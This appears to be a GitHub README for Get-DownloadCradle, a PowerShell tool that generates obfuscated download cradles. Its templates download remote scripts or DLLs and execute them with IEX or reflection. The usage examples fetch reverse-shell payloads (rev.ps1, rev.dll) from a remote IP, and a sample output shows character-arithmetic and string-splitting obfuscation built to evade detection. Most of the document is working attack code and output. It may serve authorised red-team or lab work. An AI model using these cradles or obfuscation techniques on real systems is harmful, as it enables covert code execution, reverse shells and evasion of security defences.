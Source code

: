 # Obfuscated PowerShell Download Cradles

Get-DownloadCradle is a project that stems from the Invoke-PSObfuscation framework, with the sole purpose of producing obfuscated download cradles for PowerShell. With the way this framework is built, each component of the original payload goes through a randomly selected generator, resulting in a different yield with every execution of this script. 

## Cradle Templates

This script includes templates for three PowerShell download cradles, namely `DownloadString`, `DownloadFile` and `DownloadData`. The resulting payloads are output as a one liner, but have been split below for readability. 

__DownloadString__

```powershell
$WebClient = New-Object System.Net.WebClient
$WebClient.DownloadString("<DOWNLOADPATH>") | IEX
```
__DownloadFile__

```powershell
$WebClient = New-Object System.Net.WebClient
$WebClient.DownloadFile("<DOWNLOADPATH>","<LOCALPATH>")
$Assem = [System.Reflection.Assembly]::LoadFile("<LOCALPATH>")
$Class = $Assem.GetType("<CLASSNAME>")
$Method = $Class.GetMethod("<METHODNAME>")
$Method.Invoke(0,$null)
```

__DownloadData__

```powershell
$WebClient = New-Object System.Net.WebClient
$Data = $WebClient.DownloadData("<DOWNLOADPATH>")
$Assem = [System.Reflection.Assembly]::Load($Data)
$Class = $Assem.GetType("<CLASSNAME>")
$Method = $Class.GetMethod("<METHODNAME>")
$Method.Invoke(0,$null)
```

## Requirements

This script was built and tested on the following version Kali Linux and PowerShell. The obfuscated cradles are compatible on Windows systems that support PowerShell newer than version 2.0

```shell
┌──(kali㉿kali)-[/home/kali]
└─PS> $PSVersionTable

Name                           Value
----                           -----
PSVersion                      7.2.4
PSEdition                      Core
GitCommitId                    7.2.4
OS                             Linux 5.18.0-kali5-amd64 #1 SMP PREEMPT_DYNAMIC Debian 5.18.5-1kali6 (2022-07-07)
Platform                       Unix
PSCompatibleVersions           {1.0, 2.0, 3.0, 4.0…}
PSRemotingProtocolVersion      2.3
SerializationVersion           1.1.0.1
WSManStackVersion              3.0
```

## Usage Examples

To load the script on Kali Linux, open a terminal then run `pwsh`. With PowerShell now running in your terminal, you can load the script into your current session by dot sourcing the script.

```shell
┌──(kali㉿kali)-[~]
└─$ pwsh
PowerShell 7.2.4
Copyright (c) Microsoft Corporation.

https://aka.ms/powershell
Type 'help' to get help.

┌──(kali㉿kali)-[/home/kali]
└─PS> . ./Get-DownloadCradle.ps1
```

With the script loaded into our PowerShell session, we need to run the `Get-DownloadCradle` function and supply the cradle type and accompanying information to inject into the payload.

__DownloadString__

`Get-DownloadCradle -DownloadString -DownloadPath http://192.168.49.80/rev.ps1`

__DownloadFile__

`Get-DownloadCradle -DownloadFile -DownloadPath http://192.168.49.80/rev.dll -LocalPath C:\rev.dll -Class DLL_Payload.ReverseShell -Method runner`

__DownloadData__

`Get-DownloadCradle -DownloadData -DownloadPath http://192.168.49.80/rev.dll -Class DLL_Payload.ReverseShell -Method runner`

__Output to File__

`Get-DownloadCradle -DownloadData -DownloadPath http://192.168.49.80/rev.dll -Class DLL_Payload.ReverseShell -Method runner -OutFile obfuscated.ps1`

__Show Changes__

Where this script has been built from `Invoke-PSObfuscation`, we have the ability to target specific script components vs all of them at the same time. In addition to this, if we wanted to learn more about what was obfuscated, we can include the `ShowChanges` parameter. This will instruct the script to display each targeted component, the obfuscated value that will be replacing it and the generator value that was used. 

```shell
──(kali㉿kali)-[/home/kali]
└─PS> Get-DownloadCradle -DownloadData -DownloadPath http://192.168.49.80/rev.dll -Class DLL_Payload.ReverseShell -Method runner -ShowChanges

     >> Layer 0 Download Cradle
     >> https://github.com/gh0x0st

    Generator 2 >> http://192.168.49.80/rev.dll >> $([char](51+104-51)+[char](0+116-0)+[char](0+116-0)+[char](0+112-0)+[char](30+58-30)+[char](0+47-0)+[char](73*47/73)+[char](25*49/25)+[char](45+57-45)+[char](58+50-58)+[char](102+46-102)+[char](0+49-0)+[char](78*54/78)+[char](113*56/113)+[char](26*46/26)+[char](18*52/18)+[char](69*57/69)+[char](98*46/98)+[char](15*56/15)+[char](24*48/24)+[char](0+47-0)+[char](48+114-48)+[char](118*101/118)+[char](0+118-0)+[char](0+46-0)+[char](0+100-0)+[char](45*108/45)+[char](0+108-0))
    Generator 3 >> DLL_Payload.ReverseShell >> $($($('D'+'L'+'L'+'_'+'P'+'a'+'y'+'l'+'o'+'a'+'d'+'.'+'R'+'e'+'v'+'e'+'r'+'s'+'e'+'S'+'h'+'e'+'l'+'l')))
    Generator 3 >> runner >> ($($('r'+'u'+'n'+'n'+'e'+'r')))
    Generator 2 >> System.Net.WebClient >> $([char](0+83-0)+[char](76+121-76)+[char](118+115-118)+[char](98+116-98)+[char](91*101/91)+[char](2*109/2)+[char](105*46/105)+[char](0+78-0)+[char](51*101/51)+[char](0+116-0)+[char](23+46-23)+[char](0+87-0)+[char](0+101-0)+[char](0+98-0)+[char](111+67-111)+[char](54*108/54)+[char](0+105-0)+[char](52+101-52)+[char](42*110/42)+[char](0+116-0))
    Generator 2 >> New-Object >> & ([string]::join('', ( (78,101,119,45,79,98,106,101,99,116) |%{ ( [char][int] $_)})) | % {$_})
    Generator 5 >> | >> |<##>%{$_}|
    Generator 11 >> | >> |ForEach-Object{$_}|ForEach-Object{$_}|
    Generator 2 >> $WebClient >> $rOG6V9jBlcgSL3DnfKy1vs
    Generator 3 >> $Data >> $MH6VTazWPsQbu8z
    Generator 3 >> $Assem >> $SIsYjqGeX8bayA2nuPRC
    Generator 3 >> $Class >> $fD
    Generator 2 >> $Method >> $5osQqa0YTMZIUt6Vu9D
```
